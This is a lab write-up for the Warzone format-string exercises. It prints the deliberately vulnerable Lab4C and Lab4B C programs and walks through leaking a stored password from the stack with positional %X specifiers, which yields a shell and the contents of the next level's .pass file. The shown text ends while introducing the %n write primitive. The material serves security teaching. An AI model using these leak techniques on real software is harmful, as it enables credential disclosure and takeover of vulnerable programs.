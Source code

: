 # Warzone Lab 4: Format Strings

## Lab4C:

```bash
# SSH in
lab4C@<ip>
lab04start
```

```C
/*
 *   Format String Lab - C Problem
 *   gcc -z execstack -z norelro -fno-stack-protector -o lab4C lab4C.c
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define PASS_LEN 30

int main(int argc, char *argv[])
{
    char username[100] = {0};
    char real_pass[PASS_LEN] = {0};
    char in_pass[100] = {0};
    FILE *pass_file = NULL;
    int rsize = 0;

    /* open the password file */
    pass_file = fopen("/home/lab4B/.pass", "r");
    if (pass_file == NULL) {
        fprintf(stderr, "ERROR: failed to open password file\n");
        exit(EXIT_FAILURE);
    }

    /* read the contents of the password file */
    rsize = fread(real_pass, 1, PASS_LEN, pass_file);
    real_pass[strcspn(real_pass, "\n")] = '\0';  // strip \n
    if (rsize != PASS_LEN) {
        fprintf(stderr, "ERROR: failed to read password file\n");
        exit(EXIT_FAILURE);
    }

    /* close the password file */
    fclose(pass_file);

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("-----------------------------------------");
    puts("- You must login to access this system. -");
    puts("-----------------------------------------");

    /* read username securely */
    printf("--[ Username: ");
    fgets(username, 100, stdin);
    username[strcspn(username, "\n")] = '\0';    // strip \n

    /* read input password securely */
    printf("--[ Password: ");
    fgets(in_pass, sizeof(in_pass), stdin);
    in_pass[strcspn(in_pass, "\n")] = '\0';      // strip \n

    puts("-----------------------------------------");

    /* log the user in if the password is correct */
    if(!strncmp(real_pass, in_pass, PASS_LEN)){
        printf("Greetings, %s!\n", username);
        system("/bin/sh");
    } else {
        printf(username);
        printf(" does not have access!\n");
        exit(EXIT_FAILURE);
    }

    return EXIT_SUCCESS;
}
```

C format strings are vulnerable to injections of format specifiers. Remember we're on x86 architecture so arguments to functions are placed on the stack. Hence if we stick a bunch of format specifiers, this is going to look at the beginning of the stack frame and move up argument by argument. For example:

```C
int n = 5;
printf("%d %d %d %d", n); // All these trailing %d will read stack memory
```

So let's start by injecting a bunch of format specifiers into our username and see if we can print some erroneous stuff!

```
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %d %d %d %d
--[ Password: %d %d %d %d
-----------------------------------------
-1073744462 30 134520840 1680146432 does not have access!
```

Nice! So now we want to inject enough format specifiers to reach the `real_pass` memory. We can print out specific parameters using the `$` specifier. Since we've got a limit on the number of characters we can input this will be pretty handy to reach even further into the stack. Since there's a few buffers allocated on the stack we know we've got a bit of crap to skip over before we hit our password. Specifically, it'll be something like:

```
rsize - 4 bytes
pass_file - 4 bytes
in_pass - 100 bytes
real_pass - 30 bytes
```

Let's putting all A's for our password and then print:

```
lab4C@warzone:/tmp$ /levels/lab04/lab4C
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %0$08X %1$08X %2$08X %3$08X %4$08X %5$08X %6$08X %7$08X
--[ Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-----------------------------------------
%0$08X BFFFF592 0000001E 0804A008 41410000 41414141 41414141 41414141 does not have access!
```

Nice! Now we can see exactly where it looks like our `in_pass` buffer is starting, half way through the 4th arg. Let's skip forward about 20 arguments to get over the `in_pass` and into the `real_pass`.

```
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %24$08X %25$08X %26$08X %27$08X %28$08X %29$08X %30$08X %31$08X
--[ Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-----------------------------------------
41414141 41414141 41414141 41414141 41414141 75620041 74315F37 7334775F does not have access!
```

Looks like we might be getting the first bit of our password here: `75620041 74315F37 7334775F`. Lets go a little further:

```
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: %32$08X %33$08X %34$08X %35$08X %36$08X %37$08X %38$08X %39$08X
--[ Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
-----------------------------------------
625F376E 33745572 7230665F 62343363 00216531 24323325 20583830 24333325 does not have access!
```

Looks like we've got a nice `\0` byte in here now too, that's probably the end of our string! Putting it all together we have something like:
```
75620041 74315F37 7334775F 625F376E 33745572 7230665F 62343363 00216531
Abu7_1t_w4sn7_brUt3_f0rc34b1e!
```

Dropping off our leftover A we get: `bu7_1t_w4sn7_brUt3_f0rc34b1e!`. 
```
===== [ Secure Access System v1.0 ] =====
-----------------------------------------
- You must login to access this system. -
-----------------------------------------
--[ Username: user
--[ Password: bu7_1t_w4sn7_brUt3_f0rc34b1e!
-----------------------------------------
Greetings, user!
$ cat /home/lab4B/.pass
bu7_1t_w4sn7_brUt3_f0rc34b1e!
```

### What'd we learn:

- You can print specific args with the following syntax: `%<arg_index>$<format_specifier>`.
- You can inject format specifiers to print arbitrary memory.

## Lab4B

```C
/*
 *   Format String Lab - B Problem
 *   gcc -z execstack -z norelro -fno-stack-protector -o lab4B lab4B.c
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
    int i = 0;
    char buf[100];

    /* read user input securely */
    fgets(buf, 100, stdin);

    /* convert string to lowercase */
    for (i = 0; i < strlen(buf); i++)
        if (buf[i] >= 'A' && buf[i] <= 'Z')
            buf[i] = buf[i] ^ 0x20;

    /* print out our nice and new lowercase string */
    printf(buf);

    exit(EXIT_SUCCESS);
    return EXIT_FAILURE;
}
```

Woah nice short one this time, just XORing an input to make alphabet characters lowercase. How the hell are we gonna spawn a shell out of this? Introducing the `%n` format specifier.

The `%n` format specifier is used to know how many bytes have been printed so far. For instance,

```C
unsigned int len = 0;
int n = 5;
printf("Hello World %d%n\n", n, &len);
printf("Last printf had %d bytes\n", len);
```

```
# gcc example.c -o example
# ./example
Hello World 5
Last printf had 13 bytes
```